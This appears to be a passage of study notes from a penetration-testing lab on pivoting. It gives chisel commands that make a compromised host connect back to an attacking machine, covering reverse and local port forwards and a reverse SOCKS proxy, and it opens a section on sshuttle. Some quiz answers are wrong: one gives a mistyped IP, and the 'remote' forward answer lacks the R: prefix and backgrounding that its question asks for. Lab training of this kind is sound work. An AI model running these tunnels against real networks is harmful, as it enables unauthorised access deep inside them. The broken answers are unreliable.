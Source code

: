 For a remote port forward, on our attacking machine we use the exact same command as before:\
`./chisel server -p LISTEN_PORT --reverse &`

Once again this sets up a chisel listener for the compromised host to connect back to.\
The command to connect back is slightly different this time, however:\
`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

let's assume that our own IP is 172.16.0.20, the compromised server's IP is 172.16.0.5, and our target is port 22 on 172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222 on our attacking machine would be as follows:\
`./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &`

Connecting back to our attacking machine, functioning as a chisel server started with:\
`./chisel server -p 1337 --reverse &`

This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222.

**Local port forward**

&#x20;On the compromised target we set up a chisel server:\
`./chisel server -p LISTEN_PORT`

We now connect to this from our attacking machine like so:\
`./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`

For example, to connect to 172.16.0.5:8000 (the compromised host running a chisel server), forwarding our local port 2222 to 172.16.0.10:22 (our intended target), we could use:\
`./chisel client 172.16.0.5:8000 2222:172.16.0.10:22`

_What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?_

```
./chisel client 176.16.0.200:4242 R:socks &
```

_How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process._

```
./chisel client 172.16.0.200:1337 33060:172.16.0.100:3306
```

_If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?_

```
./chisel client 172.16.0.5:4444 8000:172.16.0.10:80
```

#### [sshuttle](https://github.com/sshuttle/sshuttle)

&#x20;it uses an SSH connection to create a tunnelled proxy that acts like a new interface. In short, it simulates a VPN, allowing us to route our traffic through the proxy _without the use of proxychains_

First of all we need to install sshuttle. On Kali this is as easy as using the `apt` package manager:\
`sudo apt install sshuttle`
